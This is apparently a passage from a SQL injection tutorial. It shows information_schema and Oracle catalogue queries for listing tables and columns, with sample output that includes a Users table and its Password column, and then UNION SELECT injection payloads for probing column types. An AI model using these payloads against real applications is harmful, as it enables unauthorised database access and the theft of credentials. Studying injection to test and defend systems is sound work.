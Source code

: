 First example: retrieve the names of the tables.

```sql
SELECT * FROM information_schema.tables
```

The output should be similar the following table:

| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
| ------------- | ------------ | ---------- | ---------- |
| MyDatabase    | dbo          | Products   | BASE TABLE |
| MyDatabase    | dbo          | Users      | BASE TABLE |
| MyDatabase    | dbo          | Feedback   | BASE TABLE |

Second example: retrieve the names of the columns.

```sql
SELECT * FROM information_schema.columns
```

The output should be similar the following table:

| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | DATA_TYPE |
| ------------- | ------------ | ---------- | ----------- | --------- |
| MyDatabase    | dbo          | Users      | UserId      | int       |
| MyDatabase    | dbo          | Users      | Username    | varchar   |
| MyDatabase    | dbo          | Users      | Password    | varchar   |

As I mentioned before, Oracle databases differ (as regards the location of the information schema).

```sql
-- list tables
-- https://docs.oracle.com/cd/B28359_01/server.111/b28320/statviews_2105.htm#REFRN20286
-- see the link above to see all the columns
SELECT * FROM all_tables

-- list columns by querying all_tab_columns:
-- https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2094.htm
-- see the link above to see all the columns

SELECT * FROM all_tab_columns WHERE table_name = 'USERS' 
```

## Finding columns with a useful data type

Based on the number of columns, you can select a `NULL` value with, for example, a string or an integer, in order to test the data type (if it doesn't return an error it means is should be correct).

```txt
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'-- 
```
